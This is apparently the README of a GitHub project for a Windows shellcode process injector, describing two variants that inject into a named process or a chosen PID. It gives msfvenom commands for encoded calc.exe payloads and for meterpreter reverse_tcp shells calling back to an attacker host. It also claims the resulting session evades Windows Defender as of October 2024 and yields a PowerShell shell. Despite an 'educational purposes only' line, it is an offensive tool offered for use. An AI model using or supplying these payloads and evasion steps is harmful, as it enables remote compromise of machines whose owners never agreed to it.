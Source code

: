 # Shellcode Process Injector

This project contains two variants of a shellcode injector for Windows that injects shellcode into a specified target process. The two versions differ in how they identify the target process for injection: one uses a hardcoded process name, and the other allows the user to specify a process ID (PID) at runtime (This is more a POC).

## Variants
Update the ShellCode with your own generated one
### Shellcode_ProcessInjector_auto
1. Open the source file and modify the `processName` variable to target the desired process.
2. Compile the program.
3. Run the executable.

### Shellcode_ProcessInjector_manual
1. Compile the program.
2. Run the executable and enter the PID of the target process when prompted.

## ShellCode Generation 
### 64-Bit Version
   - Example of Shellcode generation commands for 64-bit Targets
   - Shellcode used to open `calc.exe`:
     ```c
     msfvenom -p windows/x64/exec cmd=calc.exe -f c -e x64/zutto_dekiru
     ```
   - Shellcode for `windows/x64/meterpreter/reverse_tcp` (64-bit):
     ```c
     msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<hostIP> LPORT=<hostPORT> -f c -e x64/zutto_dekiru
     ```

### 32-Bit Version
   - Example of Shellcode generation commands for 32-bit Targets
   - Example shellcode used to open `calc.exe` on a 32-bit application:
     ```c
     msfvenom -p windows/exec cmd=calc.exe -f c -e x86/shikata_ga_nai -b "\x00\x0A\x0D" --smallest
     ```
   - Shellcode for `windows/meterpreter/reverse_tcp` (32-bit):
     ```c
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=<hostIP> LPORT=<hostPORT> -f c -e x86/shikata_ga_nai -b "\x00\x0A\x0D" --smallest
     ```
## Requirements

- Windows OS
- Visual Studio or a compatible C compiler
- `msfvenom` from the Metasploit Framework

## Compilation

To compile the variants, use the following command:

```bash
gcc -o Shellcode_ProcessInjector_auto Shellcode_ProcessInjector_auto.c
gcc -o Shellcode_ProcessInjector_manual Shellcode_ProcessInjector_manual.c
```

## Notes
- Ensure that the target process is running before injecting shellcode.
- This code is intended for educational purposes only. Ensure you have permission to test on any target processes.
- This will let you to get a meterpreter session that Bypasses Windows Defender as of October 2024
- The Meterpreter Session you get will be limited, but you can still get a powershell shell
![image](https://github.com/user-attachments/assets/5c3821b7-67b6-4785-9506-23520e9cb545)



